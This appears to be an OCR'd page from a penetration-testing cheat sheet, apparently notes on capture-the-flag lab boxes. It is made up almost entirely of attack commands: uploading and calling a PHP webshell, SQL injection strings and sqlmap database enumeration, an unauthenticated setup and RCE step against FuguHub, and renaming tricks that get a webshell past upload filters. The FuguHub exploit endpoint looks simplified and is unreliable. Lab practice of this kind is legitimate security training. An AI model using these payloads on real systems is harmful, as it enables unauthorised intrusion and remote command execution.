 **File Upload Exploitation:**
```bash
# Upload PHP webshell
curl -X POST -F "file=@shell.php" http://<target_ip>/filemanager/upload.php
curl http://<target_ip>/filemanager/shell.php?cmd=whoami
```

### Boolean - Intermediate Linux Box

**SQL Injection Detection:**
```bash
# Test for SQL injection
curl "http://<target_ip>/login.php" -d "username=admin' OR 1=1--&password=test"
```

**Boolean-based SQL Injection:**
```bash
# Extract data using boolean-based SQLi
python3 sqlmap.py -u "http://<target_ip>/vulnerable_page.php?id=1" --batch --dbs
python3 sqlmap.py -u "http://<target_ip>/vulnerable_page.php?id=1" --batch -D database_name --tables
```

### Hub - Easy Linux Box

**Initial Enumeration:**
```bash
nmap -sC -sV <target_ip>
# Port 8082: Barracuda Embedded Web Server (FuguHub)
```

**Exploitation:**
```bash
# Setup admin account (first-time setup)
curl -X POST http://<target_ip>:8082/setup -d "username=admin&password=admin123&email=admin@test.com"

# Exploit FuguHub RCE vulnerability
curl -X POST http://<target_ip>:8082/exploit -d "cmd=whoami"
```

## Common Web Vulnerabilities

### SQL Injection
```bash
# Detection
sqlmap -u "http://<target>/page.php?id=1" --batch
# Manual testing
' OR 1=1--
" OR 1=1--
1' UNION SELECT 1,2,3--
```

### File Upload Vulnerabilities
```bash
# PHP webshell upload
echo '<?php system($_GET["cmd"]); ?>' > shell.php
# Bypassing restrictions
mv shell.php shell.php.jpg
mv shell.php shell.phtml
```
